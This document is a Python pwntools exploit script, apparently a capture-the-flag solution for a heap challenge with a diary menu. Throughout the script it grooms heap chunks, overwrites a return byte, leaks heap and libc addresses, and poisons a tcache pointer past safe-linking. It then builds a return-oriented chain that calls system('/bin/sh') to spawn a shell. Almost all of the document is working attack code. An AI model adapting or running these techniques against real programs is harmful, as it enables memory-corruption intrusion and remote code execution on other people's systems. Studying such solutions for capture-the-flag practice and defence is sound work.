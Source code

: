 ```py
p.sendline("5")
for i in range(8, 13):
    add(i, 0xa0, b"a\n")
add(13, 0xa2, b"a"*0x90 + p64(0) + p64(0x1c1) + b"\n")
add(14, 0xa0, b"a\n")
add(15, 0xa0, b"a\n")
add(1, 0xa1, b"a"*0x40 + p64(0) + p64(0x21) + b"a"*0x10 + p64(0) + p64(0x21) + b"\n")
add(0, 0x300, p64(0) + p64(0x21) + b"a"*16 + p64(0) + p64(0x21) + b"\n")
add(7, 0xa0, b"a\n") # for leaks
add(6, 0xa0, b"don't want to consolidate with top\n")
for i in range(8, 14):
    delete(i)
delete(15)

delete(1)
delete(14)
delete(7)
note_exit()

# ret to 0x6a
# gdb.attach(p, '''
# b* $rebase(0x0171A)
# b* $rebase(0x01A1E)
# ''')
# pause()
p.recvuntil("> ")
p.sendline("1")
p.recvuntil("You grip your sword and shout:")
p.sendline(b"a"*35 + b"\x37" + p8(0x6a))
p.recvuntil("> ")
p.sendline("5")
show(0)
p.recvuntil("--- Diary Entry 0 ---\n")
heap_leak = u64(p.recv(6).strip().ljust(8, b'\x00'), 16)
log.info(f"heap leak: {hex(heap_leak)}")
heap_base = heap_leak - 0xd30
log.info(f"heap base: {hex(heap_base)}")
# gdb.attach(p, "b* $rebase(0x141d)")
# pause()
delete(1)
# # construct payload to do stuff
pos = heap_base + 0x8d0 # cover tcache perthread struct
payload = p64(0) + p64(0xb1) + b"a"*0xa0 + p64(0) + p64(0xb1) + p64(pos ^ (heap_leak//0x1000)) + p64(heap_base + 0x10) + b"\x00" * 0x90 + p64(0xb0) + p64(0xb0) + p64(heap_base + 0xbe8) + b"\n"
add(15, 0x1b0, payload)
show(0)
p.recvuntil("--- Diary Entry 0 ---\n")
libc_leak = u64(p.recv(6).ljust(8, b'\x00'), 16)
log.info(f"libc leak: {hex(libc_leak)}")
# 0x7f41346feb20
libc_base = libc_leak - 0x203b20
log.info(f"libc base: {hex(libc_base)}")
# 从 game 返回时会栈迁移
# write stuff at heap_base + 0x8d8
pop_rdi_ret = libc_base + 0x10f75b
ret = libc_base + 0x10f75c
system = libc_base + libc.symbols['system']
binshell = libc_base + 0x1CB42F

add(2, 0xa0, "something\n")
add(3, 0xa0, p64(0) + p64(ret) + p64(pop_rdi_ret) + p64(binshell) + p64(system) + b"\n")
note_exit()
p.recvuntil("> ")
```